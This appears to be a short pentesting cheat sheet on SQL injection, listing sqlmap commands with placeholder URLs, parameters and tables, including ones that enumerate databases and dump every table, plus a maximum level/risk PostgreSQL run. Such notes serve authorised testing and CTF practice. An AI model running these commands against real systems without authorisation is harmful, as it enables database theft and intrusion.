 # SQL Injection

## Links

- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [sqlmap Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- [SocketSQL](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

## First run (no interaction)

```sh
sqlmap --batch -u http://URL/?PARAM=1
```

## Dump all databases

```sh
sqlmap --dump-all --exclude-sysdbs --batch -u http://URL/?PARAM=1
```

## Load request data from file

```sh
sqlmap --dump-all --exclude-sysdbs --batch -r FILE
```

## Select the params

```sh
sqlmap -r FILE -p PARAM1,PARAM2
```

## List all databases

```sh
sqlmap -u http://URL/?PARAM=1 --dbs
```

## List tables from database

```sh
sqlmap -u http://URL/?PARAM=1 -D DATABASE --tables
```

## Dump table

```sh
sqlmap -u http://URL/?PARAM=1 -D DATABASE -T TABLE --dump
```

## Specify level, risk, database, https

```sh
sqlmap -r sql.req --dump-all --exclude-sysdbs --batch --level 5 --risk 3 --dbms PostgreSQL --force-ssl -vv
```
